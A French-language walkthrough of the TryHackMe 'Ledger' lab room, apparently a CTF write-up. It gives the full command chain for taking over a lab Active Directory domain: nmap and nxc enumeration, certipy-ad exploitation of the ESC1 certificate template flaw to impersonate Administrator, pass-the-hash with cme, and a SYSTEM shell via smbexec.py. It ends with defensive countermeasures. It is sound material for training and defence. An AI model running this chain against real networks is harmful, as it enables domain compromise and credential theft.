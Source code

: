 # 🧾 TryHackMe - Ledger – Write-up Complet (FR)

> Room : https://tryhackme.com/room/ledger

## 🧠 Objectif

Exploiter une machine Windows Active Directory vulnérable (`labyrinth.thm.local`) pour obtenir une exécution de commande en tant qu’administrateur de domaine via une attaque AD CS (ESC1) et la réutilisation de hash NTLM.

---

## 🔍 1. Scan et découverte initiale

### 🔎 Scan Nmap

nmap -Pn -sC -sV -T4 -p- <IP>
    • Port 445 (SMB) ouvert : cible un contrôleur de domaine Windows.
    • Port 389 (LDAP) et 88 (Kerberos) également ouverts : environnement Active Directory confirmé.
🛠️ Préparation
Ajout dans /etc/hosts :
<IP> labyrinth.thm.local thm.local LABYRINTH
🧪 Tests d'accès invités
nxc smb labyrinth.thm.local -u 'guest' -p ''
nxc ldap labyrinth.thm.local -u 'guest' -p '' --users
✅ On récupère plusieurs utilisateurs. Deux partagent le mêmes MDP.
🔐 Accès initial 
nxc smb labyrinth.thm.local -u 'SUSANNA_MCKNIGHT' -p '[REDACTED]'
✅ Connexion confirmée. On utilise Remmina pour ouvrir un accès graphique RDP.
📁 user.txt récupéré.

🧩 2. Exploitation d'AD CS – ESC1
🔬 Découverte de la vulnérabilité
certipy-ad find -u 'SUSANNA_MCKNIGHT@thm.local' -p '[REDACTED]' -target labyrinth.thm.local -stdout -vulnerable
On découvre un modèle de certificat vulnérable appelé ServerAuth.
❗ ESC1 - Détail de la faille
    • ESC1 (Enterprise Security Control 1) permet de forger un certificat pour n’importe quel utilisateur (même Domain Admin).
    • Conditions réunies :
        ◦ ENROLLEE_SUPPLIES_SUBJECT activé
        ◦ Client Authentication EKU présent
        ◦ Groupe Authenticated Users peut s’enrôler

📥 Requête de certificat en se faisant passer pour l'administrateur
certipy-ad req -username 'SUSANNA_MCKNIGHT@thm.local' -password '[REDACTED]' \
  -ca thm-LABYRINTH-CA -template ServerAuth \
  -target labyrinth.thm.local -upn Administrator@thm.local
✔️ Un certificat .pfx est généré.
🪪 Authentification avec le certificat
certipy-ad auth -pfx administrator.pfx
✔️ On récupère un hash NTLM valide du compte Administrator.

🔁 3. Test du hash NTLM (Pass-the-Hash)
cme smb labyrinth.thm.local -u Administrator -H 07d677XXXXXXX322 --kdcHost labyrinth.thm.local
✔️ Accès administrateur confirmé 🎉

🚀 4. Exécution de commande à distance (Shell SYSTEM)
smbexec.py -k -hashes :07d677XXXXXXX322 \
  THM.LOCAL/Administrator@labyrinth.thm.local
✅ Shell SYSTEM via SMB
📁 Récupération de root.txt

🔐 5. Bonnes pratiques défensives (Blue Team)
🔓 Problème	✅ Contremesure recommandée
SMB exposé	Restreindre les accès SMB aux seuls hôtes autorisés
Pass-the-Hash NTLM	- Activer LAPS- Forcer Kerberos (désactiver NTLM si possible)
ESC1 sur modèles de certificats	- Désactiver ENROLLEE_SUPPLIES_SUBJECT- Réserver l'accès à des groupes restreints
Aucun monitoring ADCS	- Auditer les requêtes de certificats
Pas de journalisation 4625	- Activer l’audit des échecs d’authentification
Aucune segmentation réseau	- Isoler les contrôleurs de domaine
Aucun SIEM ou détection post-exploit	- Déployer un SIEM avec règles sur smbexec, psexec, wmiexec

✅ En résumé
    • L’accès initial est facilité par un compte avec mot de passe faible.
    • La faille principale repose sur ESC1, mal configuré dans l’Active Directory Certificate Services.
    • La réutilisation d’un hash NTLM permet une élévation de privilège jusqu’à Administrator.
    • Une exécution de commande à distance est réalisée via SMBExec.

🧠 Outils utilisés
    • nxc (NetExec)
    • certipy
    • crackmapexec
    • smbexec.py

📌 À retenir pour la défense
🎯 Surveillez les modèles de certificats.
🎯 Ne laissez pas les utilisateurs choisir leurs propres sujets.
🎯 Sécurisez SMB et éliminez NTLM si possible.
🎯 Déployez la journalisation et les alertes ADCS.
